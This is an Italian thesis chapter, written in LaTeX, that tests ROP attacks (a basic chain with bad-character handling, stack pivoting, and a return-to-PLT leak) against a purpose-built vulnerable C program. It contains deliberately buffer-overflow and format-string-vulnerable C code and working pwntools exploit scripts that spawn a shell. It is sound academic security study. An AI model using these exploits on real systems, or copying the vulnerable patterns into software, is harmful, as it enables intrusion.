\chapter{Testing degli attacchi}
\label{chap:Test}
Quest'ultima parte dell'elaborato sarà interamente incentrata nell'illustrare in maniera dettagliata i test effettuati sfruttando i concetti e le tecniche di attacco introdotte nello \hyperref[chap:Attacks]{\textbf{scorso capitolo}}, su del codice affetto da alcune delle vulnerabilità mostrate nelle \hyperref[sec:Vulnerabilita]{\textbf{passate sezioni}}.\\
Inizialmente verranno illustrati gli strumenti che sono stati utilizzati, per sviluppare gli attacchi all'interno dei singoli test. Successivamente sarà mostrata la parte del codice su cui sono stati effettuati i test, mentre la restante parte di esso, ossia la libreria, sarà introdotta direttamente durante l'esposizione di ogni singolo attacco, così da 
avere un approccio diretto e più chiaro su ciò di cui si sta trattando.

\section{Introduzione al setup e gli strumenti utilizzati per effettuare i test}
\label{sec:Tools-setup}
Le prossime due sezioni avranno lo scopo di introdurre quelli che poi saranno i principali interpreti dei test, ossia gli strumenti che saranno utilizzati per creare gli exploit oppure per effettuare analisi statiche o dinamiche sul software ed il codice che sarà invece oggetto principale degli attacchi.

\subsection*{Introduzione agli strumenti}
\label{subsec:Tools}
Come già anticipato precedentemente al termine della sezione \ref{subsec:gadgets}, per sviluppare gli exploit, ossia costruire le \textbf{ROP chain} ed effettuare le varie analisi nel codice vulnerabile, sarà fondamentale il supporto di alcuni \textbf{tools} e strumenti anche solo per la semplificazione del lavoro.
Di seguito verrà fornita una lista di tutti gli strumenti utilizzati, corredati da descrizione e funzionalità sfruttate all'interno dei test:
\begin{itemize}
        \item \label{GDB}\textbf{GDB: The GNU Project Debugger} \cite*{GDB}\\
              \textbf{GDB} è il conosciutissimo ``\textbf{debugger}'' di programmi in Linux, come tale permette di analizzare un'applicazione durante la sua esecuzione, andando a soffermarsi in particolari punti di essa oppure in specifiche istruzioni. Permette inoltre di visionare il contenuto dei registri oppure dello stack.\\
              Nel caso dei test effettuati è stato utilizzato soprattutto per analizzare il contenuto dello stack e dei registri, soprattutto nelle fasi d'inserimento dell'input da parte dell'utente, e per controllare il flusso di esecuzione dell'applicazione una volta immessa la \textbf{ROP chain} nello stack.
        \item \label{PEDA}\textbf{PEDA - Python Exploit Development Assistance for GDB} \cite*{PEDA}\\ 
              Questo tool è un'estensione del famoso ``debugger'' sopracitato (\textbf{GDB}). Essa permette di visualizzare in maniera più chiara dati, quali stack e registri, durante l'esecuzione delle applicazioni con l'ausilio di \textbf{GDB}. Aggiunge inoltre alcuni comandi utili, come \textit{checksec} per vedere i sistemi di sicurezza abilitati nel
              binary file dell'applicazione, oppure \textit{readelf} per ottenere le principali informazioni di un file \textbf{ELF}.
        \item \label{Ropper}\textbf{Ropper} \cite*{Ropper}\\
              \textbf{Ropper} è un tool la cui principale funzione è quella di cercare e successivamente mostrare a schermo i \textbf{gadgets} presenti all'interno dei binary file delle applicazioni. È stato preferito ad altri strumenti più per una questione estetica, in quanto offre un'interfaccia ben colorata che evidenzia bene i vari \textbf{gadgets}.
              Durante i test è stato utilizzato per creare le \textbf{ROP chain}, inserendoci gli indirizzi dei vari gadget da esso rilevati all'interno dei file.
        \item \label{Radare2}\textbf{Radare2: Unix-Like Reverse Engineering Framework} \cite*{Radare2}\\
              \textbf{Radare2} è un framework open-source molto utile che comprende più tools per aiutare nell'analisi dei binary file.\\
              Nello specifico, è stato utilizzato durante i test per analizzare a livello statico la composizione di determinate sezioni dei binary file.
        \item \label{pwntools}\textbf{pwntools} \cite*{pwntools}\\
              Quest'ultimo, è una libreria Python per lo sviluppo di exploit. È stata creata a scopo di sviluppo e prototipazione, con l'intenzione di rendere la scrittura degli exploit il più semplice possibile.\\
              Nei test è stato di fondamentale importanza, in quanto essenziale nella creazione delle \textbf{ROP chain} e l'automatizzazione degli attacchi. Consente inoltre di impostare il ``\textbf{context}'', ossia una variabile globale che permette di settare certi dati, che in futuro potranno essere sfruttati dalle funzioni della libreria stessa. 
              Ad esempio, impostando il file \textbf{ELF} del codice vulnerabile alla voce \textit{context.binary}, le funzioni si adatteranno automaticamente per funzionare correttamente con le impostazioni di tale binary (come i bit dei registri, oppure il metodo di ordinamento dei byte).\\
              I moduli di principale utilizzo durante i test sono stati 4:
              \begin{itemize}
                      \item \textbf{pwnlib.tubes.tube}: Questo modulo fornisce un'interfaccia per comunicare con un server remoto oppure un processo locale. Mediante diverse funzionalità, come quelle utilizzate nei test, è possibile scambiare dati tra due processi attivi, come ad esempio il codice di exploit e l'applicazione obbiettivo degli attacchi.
                      \item \textbf{pwnlib.elf.elf}: Questo secondo modulo offre varie funzionalità per ottenere informazioni dal file \textbf{EFL} eseguibile dell'applicazione vulnerabile. Grazie ad esso, è possibile recuperare gli indirizzi delle funzioni, delle variabili, o di qualsiasi altro simbolo presente nel \textbf{ELF}. Tali informazioni 
                      sono accessibili come un dizionario oppure utilizzando la notazione puntata.
                      \item \textbf{pwnlib.rop.rop}: Quest'altro modulo offre molte funzioni per semplificare la creazione delle \textbf{ROP chain}. Essa consente di simulare un vero e proprio ``finto'' stack su cui inserire gli indirizzi dei gadget.
                      \item \textbf{pwnlib.util.packing}: il seguente modulo rende disponibili delle funzioni (\textbf{p64()}) in grado di trasformare automaticamente, in base al contenuto della variabile ``\textbf{context}'', qualsiasi indirizzo fornito secondo il metodo di ordinamento dei byte definito (ad esempio \textbf{little-endian} oppure \textbf{big-endian}),
                      semplificando l'inserimento degli stessi all'interno delle \textbf{ROP chain}.
              \end{itemize}
\end{itemize}

\subsection*{Illustrazione codice utilizzato nei test}
\label{subsec:Code}
In questa sezione, verrà illustrata parte del codice creato su misura per effettuati i vari test.\\
Come setup generale si è deciso di sviluppare un semplice programma in C ed una libreria condivisa da collegare dinamicamente a tale codice.
L'unico scopo del programma principale, sarà quello di effettuare le chiamate alle varie funzioni vulnerabili contenute nella libreria.
Di seguito verrà mostrato il codice del programma, mentre le singole funzioni della libreria saranno mostrate quando richiamate all'interno dei test.
\begin{lstlisting}[language=C, label=vuln, caption={file .c dell'eseguibile del codice usato come esempio negli attacchi.}, style=C lang]
#include <stdio.h>
#include <string.h>
        
int main(){
        int scelta;
        char username[172],password[172];
        
        memset(password,0,0xac);
        memset(username,0,0xac);
        puts("\nCiao!\n");
        puts("> inserisci 0 o 1 per creare delle nuove credenziali\n");
        puts("> inserisci 2 per aggiornare l'username\n");
        puts("> inserisci 3 per aggiornare la password");
        
        scanf("%d",&scelta);
        
        if (scelta == 0) new_credentials(&username,&password); 
        else if (scelta == 1) new_credentials_canary();
        else if (scelta == 2) change_username();
        else if (scelta == 3) change_password();
}
\end{lstlisting}
Per quanto riguarda invece lo sviluppo degli exploit, i vari codici sono stati scritti in linguaggio \textbf{Python} e possiedono tutti la seguente struttura generale:
\begin{itemize}
      \item \textbf{Elenco dei gadgets}: Una porzione di codice dove saranno salvati all'interno delle variabili tutti i gadgets utili recuperati dal binary file, per poter effettuare l'attacco.\\
            Inoltre se necessario, sarà salvato qualsiasi altro dato necessario per costruire la \textbf{ROP chain}.
      \item \textbf{Impostazione ambiente}: In quest'altra porzione saranno settate le variabili definite ``d'ambiente'', come la ``\textbf{context}'' di \textbf{pwntools}, di fondamentale importanza
            per lo sviluppo dell'attacco.
      \item \textbf{Exploit effettivo}: Infine sarà presente il codice necessario per rendere automatico l'attacco, ossia per renderlo funzionante ogni qualvolta 
            l'utente malevolo decida di eseguirlo, senza che si debba inserire dati di alcun tipo manualmente.\\
            Solitamente questa parte è suddivisa in ricezione dati da processo, creazione \textbf{ROP chain}, elaborazione dati ed invio finale della chain.
\end{itemize}
Ora che sono state chiarite quelle che saranno le strutture generali dei setup utilizzati per lo sviluppo dei test, è possibile iniziare con la dimostrazione del primo test effettuato.
L'obbiettivo di ogni singolo attacco sarà quello dell'eseguire una \textit{shell}, utilizzando approcci differenti della \textbf{Return Oriented Programming} come quelli affrontati nel \hyperref[chap:Attacks]{\textbf{capitolo precedente}}.

\section{Test attacco generico Return Oriented Programming}
\label{sec:Test_1}
In questo primo test, è stato provato un attacco ``classico'' senza troppe complicazioni, utilizzando semplicemente i \textbf{gadgets} presenti all'interno del binary file dell'applicazione vulnerabile per costruire la \textbf{ROP chain} che eseguisse una \textit{shell}.\\
Le difese attive nell'applicazione e nella libreria per questo test sono le seguenti:\\
\begin{figure}[h]
      \centering
      
\includegraphics[width=.3\textwidth]{images/checksec_vuln.png}\hfil
      
\includegraphics[width=.3\textwidth]{images/checksec_lib.png}
      \caption{Difese attive nel \textbf{codice principale} e nella \textbf{libreria condivisa}.}\label{fig:checksec1}
\end{figure}

In entrambi i codici è quindi attiva la \hyperref[sec:Def-W-xor-X]{\textbf{NX} (\textbf{No-eXecute})}, mentre solamente nella libreria è attivo PIE, che sarebbe \hyperref[sec:Def-ASLR]{\textbf{ASLR} (\textbf{Address Space Layout Randomization})}.\\
La funzione della libreria che è stata sfruttata in questo primo test è la seguente:
\begin{lstlisting}[language=C, label=change password, caption={funzione \textbf{change\_password()} della libreria condivisa.}, style=C lang]
void change_password(){
      char new_psw[120];
      int over;
        
      memset(new_psw,0,0x78);
      puts("Inserisci la nuova password:");
      over = read(0,new_psw,0x200);
      check(over, new_psw);
      puts("Grazie!\nPassword: ");
      printf(new_psw);
}
\end{lstlisting}
Si può osservare la presenza di una vulnerabilità di tipo \textbf{buffer overflow}, in quanto la read è stata utilizzata in maniera scorretta. Essa infatti permette la lettura di molti più dati rispetto alla dimensione del buffer su cui 
viene scritto, consentendo all'attaccante di avere il controllo dello stack. Questo sarà essenziale per scrivere la \textbf{ROP chain} in esso e conseguentemente deviare il flusso di esecuzione del programma.\\
Il primo passo per lo sviluppo dell'exploit è stato quello d'impostare le variabili d'ambiente.\\
A tale scopo è stata creata una funzione che consentisse d'impostare il tutto, inserendo solamente il \textbf{pathname} del file ELF dell'applicazione vulnerabile e quello della libreria collegata se disponibile:
\begin{lstlisting}[language=Python, label=env, caption={funzione di settaggio delle principali variabili d'ambiente e chiamata della stessa.}, style =Python]
def set_env(binary,library) :   # funzione settaggio parametri del sistema
    
      elf = context.binary = ELF(binary)
      lib = ELF(library)
      p = elf.process()
      rop = ROP(elf)
      return elf, p, rop, lib

elf, p, rop, lib = set_env('./vulnerable_code','./lib.so')   # settaggio variabili

\end{lstlisting}
Una volta impostate le variabili d'ambiente, l'obbiettivo sarà quello di sfruttare la vulnerabilità sopraccitata e trovare l'\textbf{offset} con cui sarà possibile sovrascrivere l'indirizzo di ritorno contenuto nello stack.\\
Per farlo sarà sufficiente provare input di differenti lunghezze controllando di volta in volta il contenuto del registro \textbf{rip} alla terminazione del processo. Inserendo il comando ``\texttt{\textbf{dmesg}}'' nel terminale dopo l'interruzione
del processo (se causato da un errore), verranno visualizzate le informazioni contenute nei registri in merito a quella precedente esecuzione. Con questa tecnica sarà possibile trovare il corretto offset dopo vari tentativi effettuati.
\begin{figure}[htbp]
      \centering
      
\includegraphics[width=1\textwidth]{images/dmesg.png}
      \caption{Esempio di utilizzo del comando ``\textbf{dmesg}'' da terminale.}\label{fig:dmesg}
\end{figure}
\\Nell'esempio presentato sopra erano stati inseriti come input 138 caratteri ``A'', ed è facile notare grazie al comando ``\textbf{dmesg}'' come sia stato completamente sovrascritto il contenuto del registro \textbf{rbp} e successivamente anche quello di \textbf{rip} con 
2 caratteri ``A'', suggerendo che l'\textbf{offset} per andare a sovrascrivere tale registro fosse di 136 unità. Questo approccio è stato adottato poi per quasi la totalità dei test effettuati.\\
Una volta recuperato l'offset necessario per sovrascrivere il registro \textbf{rip}, l'obbiettivo era quello di creare la \textbf{ROP chain}, e per farlo è stato necessario cercare i gadgets nel binary file del codice.\\
La ricerca è stata effettuata con il tool \hyperref[subsec:Tools]{\textbf{Ropper}}, ed i \textbf{gadgets} utili per effettuare le operazioni richieste sono stati riportati nel file dell'exploit:
\begin{lstlisting}[language=Python, label=gadgets, caption={\textbf{gadgets} utili che sono stati recuperati per il primo attacco.}, style =Python]
where_to_write = int(hex(0x404050),0)     # sezione .data -> permesso scrittura 
pop_r12_r13 = p64(0x40134c)               # pop r12; pop r13; pop r14; pop r15; ret;
pop_r13 = p64(0x40134e)                   # pop r13; pop r14; pop r15; ret;
pop_rdi = p64(0x401353)                   # pop rdi; ret;
pop_rsi = p64(0x401351)                   # pop rsi; pop r15; ret;
pop_r15 = p64(0x401352)                   # pop r15; ret;
mov_rax_r13 = p64(0x4011b8)               # mov rax, r13; ret;
mov_mmr13_r12 = p64(0x40114a)             # mov qword ptr [r13], r12; ret;
add_mbr15_r14b = p64(0x40135c)            # add qword ptr [rax], rbp; ret;
xor_rdx = p64(0x4011e8)                   # xor edx, edx;
syscall =  p64(0x4012ee)                  # syscall gadget      
\end{lstlisting}
la variabile ``where\_to\_write'' visibile sopra serviva a contenere un indirizzo su cui era possibile scrivere in memoria, per avere poi un puntatore alla stringa ``\textbf{/bin/sh\textbackslash00}'' da poter utilizzare.\\
Recuperati i gadgets utilizzabili, il passo successivo sarebbe stato la creazione della \textbf{ROP chain}, tuttavia, come trattato nella \hyperref[sec:Attack_1]{spiegazione di questo primo attacco}, accade spesso che esistano 
i \textbf{bad chars} all'interno dei codici.\\
Divenne allora essenziale trovare quali caratteri rientrassero tra quelli da escludere nella chain. Il metodo adottato fu la seconda opzione descritta nella sezione \ref*{subsec:Badchars}, venne quindi creata una stringa contenente tutti i 
possibili caratteri esistenti. Fu poi inviata come input, e venne analizzato lo stack per verificare quali caratteri fossero stati modificati durante l'esecuzione del programma. Com'è possibile notare dalla seguente immagine risultarono diversi 
alcuni caratteri rispetto a come furono inseriti in principio.
\begin{figure}
      \centering
      
\includegraphics[width=.48\textwidth]{images/bad-pre.png}\hfil
      
\includegraphics[width=.48\textwidth]{images/bad-act.png}
      \caption{Input dell'utente contenuto nello stack \textbf{al momento dell'inserimento} ed \textbf{al termine dell'esecuzione} con evidenziati i caratteri modificati.}\label{fig:badchars}
\end{figure}
\\I caratteri considerati \textbf{bad chars} da parte dell'applicativo erano quindi i seguenti: \texttt{\textbf{0x2f}}, \texttt{\textbf{0x62}}, \texttt{\textbf{0x68}}, \texttt{\textbf{0x69}}, \texttt{\textbf{0x6e}}, \texttt{\textbf{0x73}} corrispondenti rispettivamente a ``\texttt{\textbf{/}}'', 
``\texttt{\textbf{b}}'', ``\texttt{\textbf{h}}'', ``\texttt{\textbf{i}}'', ``\texttt{\textbf{n}}'', ``\texttt{\textbf{s}}''.\\
Come spiegato nella dimostrazione dell'attacco, per eseguire una \textit{shell} è necessario \hyperref[shell-reg]{popolare i registri corretti}, tuttavia uno di questi richiede esplicitamente un puntatore alla 
stringa ``\textbf{/bin/sh\textbackslash00}'', di cui ogni carattere apparteneva a quelli considerati \textbf{bad chars} dal codice, risultando quindi impossibili da essere inseriti direttamente.
\\A tale scopo, fu creata allora una funzione che modificasse la stringa così da non contenere nessuno di essi:\\
\begin{lstlisting}[language=Python, label=str-stransform, caption={funzione dell'exploit che trasforma la stringa utile in una senza caratteri considerati \textbf{bad chars}.}, style =Python]
def make_good_str(bad_str, badchars) :                # trasforma stringa 
    
    good_str = ""                                     
    for c in bad_str :  
        while c in badchars :
            c = chr(ord(c) - 1)                       # c diviene carattere precedente
        good_str += c                                                     
    return good_str      

good_str = make_good_str("/bin/sh\x00", "bin/sh")     # chiamata per exploit
\end{lstlisting}
Dopo aver chiamato tale funzione e aver ottenuto la stringa trasformata, venne creata la \textbf{ROP chain}.\\ 
La prima parte prevedeva l'inserimento in memoria proprio di tale stringa appena ottenuta:
\begin{lstlisting}[language=Python, label=ROP-inmemory, caption={Prima porzione di \textbf{ROP chain} per inserimento in memoria.}, style =Python]
rop = ROP(elf)                            # creazione oggetto ROP di pwntools
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw(good_str)                         # stringa trasformata in r12 = ".agm.rg\x00"   
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x01))                        # r14 = 0x01
rop.raw(where_to_write)                   # r15 = .data idx -> "/bin/sh\x00"
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;

\end{lstlisting}
Inserita in memoria ed ottenuto quindi un puntatore ad essa, fu necessario ritrasformarla utilizzando alcuni dei \textbf{gadgets} recuperati in precedenza. Venne allora creata una seconda funzione che trasformasse ogni singolo carattere di essa direttamente in memoria, mediante l'inserimento in sequenza 
di vari \textbf{gadgets} all'interno della chain, fino all'ottenimento di quella originaria, nel caso ``\textbf{/bin/sh\textbackslash00}'':
\begin{lstlisting}[language=Python, label=badcahrs, caption={Funzione che aggiunge la parte di \textbf{ROP chain} per ritrasformare la stringa memorizzata in ``\textbf{/bin/sh\textbackslash00}''.}, style =Python]
def transform_badchars(rop, good_str, bad_str) :    # trasforma stringa in .data
      
      for n in range(len(good_str)) :
          c = good_str[n]
          rop.raw(pop_r15)                          # pop r15; ret;
          rop.raw(where_to_write + n)               # r15 = .data idx + 1
          while c != bad_str[n] :
              rop.raw(add_mbr15_r14b)               # add byte ptr[r15], r14b;
              c = chr(ord(c) + 1)                   # c diviene carattere successivo  
      
transform_badchars(rop, good_str, "/bin/sh\x00")    # chiamata alla funzione
\end{lstlisting}
Tale funzione, sfrutta il concetto spiegato nella precedente sezione \ref{subsec:Badchars}, ossia inserisce nella chain diverse istruzioni \textbf{ADD} per incrementare il valore esadecimale dei singoli caratteri, fino ad ottenere quelli della stringa attesa.
\\Gli ultimi passi per portare a termine l'attacco furono il completamento della \textbf{ROP chain}, con l'inserimento dei corretti valori all'interno dei registri per eseguire la shell e l'invio di essa come input all'applicazione:
\begin{lstlisting}[language=Python, label=ROP-syscall, caption={Parte finale della \textbf{ROP chain} per effettuare correttamente la chiamata a sistema ed eseguire la \textit{shell}.}, style =Python]
rop.raw(pop_r13)                                # pop r13; pop r14; pop r15; ret;
rop.raw(p64(0x3b))                              # r13 = 0x3b
rop.raw(p64(0x00))                              # r14 = 0x00
rop.raw(p64(0x00))                              # r15 = 0x00
rop.raw(mov_rax_r13)                            # mov rax, r13;
rop.raw(pop_rdi)                                # pop rdi; ret;
rop.raw(where_to_write)                         # rdi = .data idx -> "/bin/sh\x00"
rop.raw(pop_rsi)                                # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                              # rsi = 0x00
rop.raw(p64(0x00))                              # r15 = 0x00
rop.raw(xor_rdx)                                # rdx = 0x00
rop.raw(syscall)                                # syscall
\end{lstlisting}
Infine, fu deciso di utilizzare le funzioni \textbf{fit}() e \textbf{sendline}(), entrambe della libreria \textbf{pwntools}, per generare automaticamente l'input con gli offset corretti e in successione inviarlo direttamente al programma durante la sua esecuzione:
\begin{lstlisting}[language=Python, label=sendpayload, caption={Creazione del payload finale ed invio della chain al programma.}, style =Python]
payload = dict()                                # creazione dizionario
payload[offset] = rop
p.sendline(fit(payload))                        # invio payload al processo
p.interactive()                                 # interazione da terminale con processo
\end{lstlisting}
Il risultato finale eseguendo l'exploit completo fu quello desiderato, ossia la corretta esecuzione di una \textit{shell}.

\section{Test Stack pivoting}
\label{sec:Test_2}
Nel secondo test, la situazione era leggermente differente rispetto a quella precedente. Le difese abilitate nei due file erano sempre le stesse \hyperref[fig:checksec1]{viste in precedenza}, come l'obbiettivo finale.\\
La funzione della libreria condivisa sfruttata, invece, è la seguente:
\begin{lstlisting}[language=C, label=new credentials, caption={funzione \textbf{new\_credentials()} della libreria condivisa.}, style=C lang]
void new_credentials(char *usr, char *psw){
   
    puts("Inserisci l'username:");
    read(0,usr,0x20);
    puts("Grazie!\nUsername: ");
    printf(usr);

    puts("\nInserisci la password:");
    read(0,psw,0x178);
    puts("Grazie!\nPassword: ");
    printf(psw);
}
\end{lstlisting}
In questo caso oltre ad aver usufruito della vulnerabilità di tipo \textbf{buffer overflow}, è stata sfruttata anche la \textbf{format string} per recuperare dallo stack un importante dato come si vedrà successivamente.
Inoltre, a differenza della funzione precedente, in questo caso gli inserimenti richiesti dall'utente erano due. Il primo accettava al massimo 32 byte in input, mentre il secondo 376 byte, conseguentemente per inserire la \textbf{ROP chain} diveniva obbligatorio 
utilizzare il secondo inserimento e non il primo disponibile.\\
L'offset per sovrascrivere l'indirizzo di ritorno nello stack risultò essere di 360 byte, tuttavia la seconda \textbf{read}() consentiva l'inserimento di pochi byte aggiuntivi rispetto ad essi ed in particolare la \textbf{ROP chain} avrebbe potuto essere lunga al più 16 byte. Ovviamente 
tale valore non era sufficiente per inserirne una come quella vista nel precedente test.\\
La soluzione adottata in questo caso fu allora quella di utilizzare lo \hyperref[sec:Attack_2]{\textbf{stack pivoting}}.\\ 
Per attuare tale tecnica, fu necessario recuperare l'indirizzo di un buffer su cui inserire la \textbf{ROP chain} e disporre di un gadget che consentisse poi di sostituire l'indirizzo contenuto nel registro \textbf{rsp}, con quello di tale struttura di memoria.\\
Come buffer venne utilizzato quello passato come secondo argomento alla funzione, e il suo indirizzo venne recuperato inserendo una particolare \textbf{format string} alla richiesta della prima \textbf{read}:
\begin{lstlisting}[language=Python, label=buffer idx, caption={Recupero dallo stack dell'indirizzo del buffer mediante una \textbf{format string}.}, style =Python]
p.send(b"%6$p")                                     # stampa idx buffer 

buffer = int(p.recvline(False).decode('utf-8'),16)  # salvataggio indirizzo buffer
\end{lstlisting}
Siccome gli indirizzi degli argomenti passati alle funzioni vengono salvati nello stack, anche in questo caso quelli dei due buffer passati venivano memorizzati in esso, perciò con la format string è stato possibile recuperare l'indirizzo di quello utilizzato dalla seconda \textbf{read}().
Il passo successivo fu creare una prima \textbf{ROP chain} minore da al più 16 byte di dimensione per ``dirottare lo stack''. A tale scopo venne trovato un gadget che consentisse la sostituzione del contenuto di \textbf{rsp} con l'indirizzo appena trovato:
\begin{lstlisting}[language=Python, label=rop1, caption={Prima \textbf{ROP chain} per dirottare lo stack.}, style =Python]
pop_rsp = p64(0x40134d)                   # pop rsp; pop r13; pop r14; pop r15; ret;

rop1 = ROP(elf)                           # creazione oggetto rop1
rop1.raw(pop_rsp)                         # pop rsp; pop r13; pop r14; pop r15; ret;
rop1.raw(buffer)                          # rsp = buffer idx
\end{lstlisting}
Nella seconda \textbf{ROP chain}, ossia quella memorizzata nel buffer, venne inserito invece tutto il necessario per l'esecuzione della \textit{shell}:
\begin{lstlisting}[language=Python, label=rop1, caption={Seconda \textbf{ROP chain} da inserire nel buffer per esecuzione della \textit{shell}.}, style =Python]
rop2 = ROP(elf)                           # creazione oggetto rop2
rop2.raw(p64(0))                          # r13 = 0x00  continuo del comando pop_rsp  
rop2.raw(p64(0))                          # r14 = 0x00  continuo del comando pop_rsp
rop2.raw(p64(0))                          # r15 = 0x00  continuo del comando pop_rsp 
rop2.raw(pop_r12_r13)                     # pop r12; pop r13; pop r14; pop r15; ret;
rop2.raw("/bin/sh\x00")                   # r12 = "/bin/sh\x00"
rop2.raw(where_to_write)                  # r13 = .data idx
rop2.raw(p64(0x00))                       # r14 = 0x00
rop2.raw(p64(0x00))                       # r15 = 0x00
rop2.raw(mov_mmr13_r12)                   # mov [r13], r12; ret;
rop2.raw(pop_r13)                         # pop r13; pop r14; pop r15; ret;
rop2.raw(p64(0x3b))                       # r13 = 0x03b
rop2.raw(p64(0x00))                       # r14 = 0x00
rop2.raw(p64(0x00))                       # r15 = 0x00
rop2.raw(mov_rax_r13)                     # mov rax = r13
rop2.raw(pop_rdi)                         # pop rdi; ret;
rop2.raw(where_to_write)                  # rdi = .data idx -> "/bin/sh\x00"
rop2.raw(pop_rsi)                         # pop rsi; pop r15; ret;
rop2.raw(p64(0x00))                       # rsi = 0x0000000000000000
rop2.raw(p64(0x00))                       # r15 = 0x0000000000000000
rop2.raw(syscall)                         # syscall
\end{lstlisting}
Una volta create le due sequenze, vennero entrambe inviate al programma tramite la seconda \textbf{read}():
\begin{lstlisting}[language=Python, label=rop1, caption={Seconda \textbf{ROP chain} da inserire nel buffer per esecuzione della \textit{shell}.}, style =Python]
payload = dict()                          # creazione dizionario
payload[0] = rop2             
payload[offset] = rop1        
p.sendline(fit(payload))                  # invio payload al processo
p.interactive()                           # interazione da terminale con processo
\end{lstlisting}
Il risultato ottenuto fu quello atteso, ossia il corretto dirottamento dello stack e l'esecuzione della \textit{shell}, come da obbiettivo.
\begin{figure}[htbp]
      \centering
      
\includegraphics[width=.75\textwidth]{images/stack-pivot.png}
      \caption{Dirottamento dello stack dai test. Contornato in rosso il contenuto di \textbf{rsp} durante la normale esecuzione, in verde dopo il dirottamento.}\label{fig:stack-pivot}
\end{figure}

\section{Test su librerie collegate}
\label{sec:Test_3}
Nei prossimi tre test saranno coinvolte principalmente le librerie \textbf{collegate dinamicamente} al codice principale, utilizzando i concetti e le tecniche spiegate nella sezione \ref{sec:Attack_3}.\\
In tutti e tre i test di questa serie, le difese attive sono sempre le stesse dei \hyperref[fig:checksec1]{precedenti test}, compreso l'obbiettivo.\\
La funzione vulnerabile, della libreria condivisa, utilizzata in essi è la seguente:
\begin{lstlisting}[language=C, label=change username, caption={Funzione \textbf{change\_username()} della libreria condivisa.}, style=C lang]
void change_username(){
    char new_usr[120];
    int over;

    memset(new_usr,0,0x78);
    puts("Inserisci il nuovo username:");
    read(0,new_usr,0x200);
    puts("Grazie !);
}
\end{lstlisting}

\subsection{Return-to-PLT}
\label{subsec:Test_3-1}
In questo primo test della serie, si è utilizzato un approccio come quello descritto nella sezione \ref{subsec:Attack_3.2.1}.\\
Disponendo del file della libreria collegata all'applicazione, l'ostacolo da superare 
era il sistema di difesa \textbf{ASLR} che rendeva casuale l'indirizzo di partenza di essa in memoria. Una volta recuperato esso, era possibile utilizzare qualsiasi funzione all'interno della libreria.\\
Come nei precedenti attacchi, inizialmente sono state impostate \hyperref[env]{le variabili d'ambiente}, i \textbf{gadgets} utili (gli stessi visti precedentemente, ad esclusione di quello contenente l'istruzione 
\textbf{syscall}, non più presente nel binary file del codice) ed è stato rilevato l'\textbf{offset} che consentisse di sovrascrivere l'indirizzo di ritorno.\\
A questo punto, per ottenere l'indirizzo di partenza della libreria, era necessario creare una \textbf{ROP chain} che consentisse di recuperare uno degli indirizzi effettivi delle funzioni contenute in essa. La soluzione adottata, 
fu quella di creare una chain che richiamasse la funzione \textbf{puts}(), passandole come primo argomento il contenuto della ``\textbf{.got.plt}'' table associato alla funzione vulnerabile \hyperref[change username]{\textbf{change\_username}()}
della libreria. Essendo essa già stata richiamata all'inizio per effettuare l'attacco, il puntatore associato a tale voce nella ``\textbf{.got.plt}'' table conteneva già l'indirizzo effettivo su cui risiedeva essa in memoria.\\
Al termine di questa prima chain, però, era necessario effettuare nuovamente la chiamata alla funzionalità \hyperref[change username]{\textbf{change\_username}()}, altrimenti l'attacco sarebbe terminato senza aver nemmeno utilizzato i dati ottenuti.\\ 
Venne quindi aggiunta in coda alla sequenza anche una chiamata a tale procedura:
\begin{lstlisting}[language=Python, label=rop1-idx, caption={Creazione e invio della prima \textbf{ROP chain}, per stampare l'indirizzo effettivo in memoria di \textbf{change\_username}() e continuare l'attacco.}, style =Python]
rop = ROP(elf)                                   # creazione oggetto rop
rop.raw(elf.symbols["puts"])                     # chiamata a puts per stampare '\n'
rop.call("puts",[elf.got["change_username"]])    # stampa indirizzo di change_username
rop.raw(elf.symbols["change_username"])          # per poter inviare la seconda chain

payload = dict()                    
payload[offset]= rop
p.sendline(fit(payload))            
\end{lstlisting}
Com'è possibile notare dall'immagine in sovrimpressione, è stata utilizzata la funzione \textbf{call}() di \textbf{pwntools} come secondo elemento della chain, in quanto inserisce automaticamente in essa la chiamata alla funzione richiesta ed i gadgets per popolare i registri corretti con gli argomenti forniti.\\
Una volta inviata, venne recuperato l'indirizzo stampato a schermo dalla \textbf{puts}() e soprattutto calcolato quello di base della libreria, sottraendo al valore ottenuto l'offset statico di \textbf{change\_username}() contenuto nel file \textbf{ELF} della stessa:
\begin{lstlisting}[language=Python, label=cu-idx, caption={Ricezione dell'indirizzo effettivo di \textbf{change\_username}() e calcolo-impostazione dell'indirizzo di base in memoria della libreria.}, style =Python]
change_usr_lib_idx = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))
lib.address = change_usr_lib_idx - lib.symbols["change_username"]           
\end{lstlisting}
